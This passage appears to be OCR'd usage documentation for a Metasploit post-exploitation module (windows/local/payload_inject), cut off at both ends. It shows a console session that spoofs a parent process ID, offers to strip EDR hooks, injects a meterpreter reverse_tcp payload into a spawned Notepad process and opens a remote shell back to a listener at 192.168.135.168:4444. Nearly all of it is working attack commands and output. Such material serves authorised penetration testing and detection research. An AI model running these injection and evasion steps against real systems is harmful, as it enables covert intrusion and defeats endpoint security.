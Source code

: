 ```
meterpreter > getpid
Current pid: 684
meterpreter >

```

### Windows 10x64 Build 17134 No PID
```
msf5 exploit(windows/local/payload_inject) > set PPID 3632
PPID => 3632
msf5 exploit(windows/local/payload_inject) > show options

Module options (exploit/windows/local/payload_inject):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   AUTOUNHOOK   false            no        Auto remove EDRs hooks
   PID          0                no        Process Identifier to inject of process to inject payload. 0=New Process
   PPID         3632             no        Process Identifier for PPID spoofing when creating a new process. (0 = no PPID spoofing)
   SESSION      1                yes       The session to run this module on.
   WAIT_UNHOOK  5                yes       Seconds to wait for unhook to be executed


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.135.168  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows


msf5 exploit(windows/local/payload_inject) > run

[*] Started reverse TCP handler on 192.168.135.168:4444
[*] Running module against DESKTOP-D1E425Q
[*] Spawned Notepad process 1528
[*] Spoofing PPID 3632
[*] Injecting payload into 1528
[*] Preparing 'windows/x64/meterpreter/reverse_tcp' for PID 1528
[*] Sending stage (206403 bytes) to 192.168.132.125
[*] Meterpreter session 3 opened (192.168.135.168:4444 -> 192.168.132.125:49677) at 2020-01-22 13:16:31 -0600

meterpreter > getpid
Current pid: 1528
meterpreter > ps

Process List
============

 PID   PPID  Name                         Arch  Session  User                     Path
 ---   ----  ----                         ----  -------  ----                     ----
 0     0     [System Process]
```